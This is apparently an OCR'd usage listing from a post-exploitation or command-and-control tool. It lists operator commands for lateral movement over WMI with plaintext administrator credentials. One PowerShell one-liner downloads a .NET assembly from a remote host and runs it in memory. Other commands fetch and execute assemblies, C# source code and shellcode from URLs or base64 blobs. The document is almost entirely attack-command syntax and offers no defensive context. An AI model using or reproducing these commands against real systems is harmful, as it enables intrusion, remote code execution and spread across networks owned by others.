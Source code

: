 ```
        unlink ID

Lateral movement:
	lateralmovement wmiexec domain=galaxy username=administrator password=Password3 host=10.0.0.1 command="powershell –c $m = new- object net.webclient;$Url = 'http://172.16.121.1';$dba =$m.downloaddata($Url);$a =[System.Reflection.Assembly]::Load($dba); $a.EntryPoint.Invoke(0,@(,[string[]]@()))"

Execute a command/binary:
	exec cmd.exe /c dir
        exec powershell -c Write-Output($env:UserName)

Execute a command/binary/assembly as a thread (no wait, no output):
	execthread cmd.exe /c dir
        execthread powershell -c Write-Output($env:UserName)
        execthread-sharpassembly url http://127.0.0.1/Assembly.exe Parameters
        execthread-sharpassembly base64 http://127.0.0.1/Assembly.b64 Parameters
        execthread-sharpcode url http://127.0.0.1/Sharpcode.src Parameters
        execthread-sharpcode base64 BASE64_ENCODED_SHARPCODE Parameters

Inline run for .NET source code:
	exec-sharpdirect SHARPCODE
        exec-sharpdirect base64 BASE64_ENCODED_SHARPCODE

Execute a .NET assembly:
	exec-sharpassembly url http://127.0.0.1/Assembly.exe Parameters
        exec-sharpassembly base64 http://127.0.0.1/Assembly.b64 Parameters

Compile & Execute .NET source code:
	exec-sharpcode url http://127.0.0.1/Sharpcode.src Parameters
        exec-sharpcode base64 BASE64_ENCODED_SHARPCODE Parameters

Execute Shellcode:
	exec-shellcode url http://127.0.0.1/Shellcode.bin ARCH64 T1
        exec-shellcode url http://127.0.0.1/Shellcode.bin ARCH32 T2
        exec-shellcode base64 http://127.0.0.1/Shellcode.b64 ARCH64 T1
        exec-shellcode base64 http://127.0.0.1/Shellcode.b64 ARCH32 T2

Exit:
        exit
        terminate
```
